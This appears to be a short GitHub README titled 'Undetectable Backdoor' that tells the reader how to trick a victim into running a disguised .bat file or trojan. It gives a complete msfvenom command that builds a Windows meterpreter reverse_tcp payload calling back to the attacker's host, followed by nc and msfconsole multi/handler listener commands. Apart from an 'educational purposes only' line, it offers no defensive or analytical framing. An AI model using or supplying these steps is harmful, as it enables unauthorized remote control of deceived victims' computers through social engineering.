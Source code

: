# Undetectable Backdoor
##### Educational purposes only
##### Social Engineering required!
#### Get victim to download .bat file to their machine, i.e through ngrok server, google drive, discord, or other means.
#### Make it convincing by turning it into a trojan horse.

### Generate the payload:
#### Using meterpreter here, but feel free to play around with it.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[YOUR_IP] LPORT=4444 -a x86 -f exe -o [FILE_NAME.exe]

# Setup your listener with nc or msfconsole. <br>
nc -lvnp 9001 <br>
or <br>
msfconsole -q <br>
msf> use multi/handler <br>
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp <br>
msf  exploit(handler) > set LHOST <Listening_IP> (for example set LHOST 192.168.5.55) <br>
msf exploit(handler) > set LPORT <Listening_Port> (for example set LPORT 4444) <br>
msf exploit(handler) > exploit <br>
